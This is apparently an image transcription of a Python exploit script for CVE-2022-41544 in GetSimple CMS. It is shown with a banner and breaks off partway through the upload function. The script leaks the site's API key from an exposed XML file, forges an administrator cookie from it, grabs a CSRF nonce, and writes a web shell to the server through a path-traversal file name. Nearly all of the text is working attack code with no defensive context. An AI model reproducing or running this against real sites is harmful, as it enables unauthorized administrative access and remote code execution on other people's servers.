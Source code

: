 ```
red = "\033[0;31m"

def print_the_banner():
    print(purple + '''
 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4 
C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4 
C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444 
C      V V   E         2   00  0  2    2          4  11     5    4    4 
 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4 
 '''+ reset)

def get_version(target, path):
    r = requests.get(f"http://{target}{path}admin/index.php")
    match = re.search("jquery.getsimple.js\?v=(.*)\"", r.text)
    if match:
        version = match.group(1)
        if version <= "3.3.16":
            print( red + f"[+] the version {version} is vulnrable to CVE-2022-41544")
        else:
            print ("This is not vulnrable to this CVE")
        return version
    return None

def api_leak(target, path):
    r = requests.get(f"http://{target}{path}data/other/authorization.xml")
    if r.ok:
        tree = ElementTree.fromstring(r.content)
        apikey = tree[0].text
        print(f"[+] apikey obtained {apikey}")
        return apikey
    return None

def set_cookies(username, version, apikey):
    cookie_name = hashlib.sha1(f"getsimple_cookie_{version.replace('.', '')}{apikey}".encode()).hexdigest()
    cookie_value = hashlib.sha1(f"{username}{apikey}".encode()).hexdigest()
    cookies = f"GS_ADMIN_USERNAME={username};{cookie_name}={cookie_value}"
    headers = {
        'Content-Type':'application/x-www-form-urlencoded',
        'Cookie': cookies
    }
    return headers

def get_csrf_token(target, path, headers):
    r = requests.get(f"http://{target}{path}admin/theme-edit.php", headers=headers)
    m = re.search('nonce" type="hidden" value="(.*)"', r.text)
    if m:
        print("[+] csrf token obtained")
        return m.group(1)
    return None

def upload_shell(target, path, headers, nonce, shell_content):
    upload_url = f"http://{target}{path}admin/theme-edit.php?updated=true"
    payload = {
        'content': shell_content,
        'edited_file': '../shell.php',
        'nonce': nonce,
        'submitsave': 1
    }
    try:
        response = requests.post(upload_url, headers=headers, data=payload)
        if response.status_code == 200:
            print("[+] Shell uploaded successfully!")
```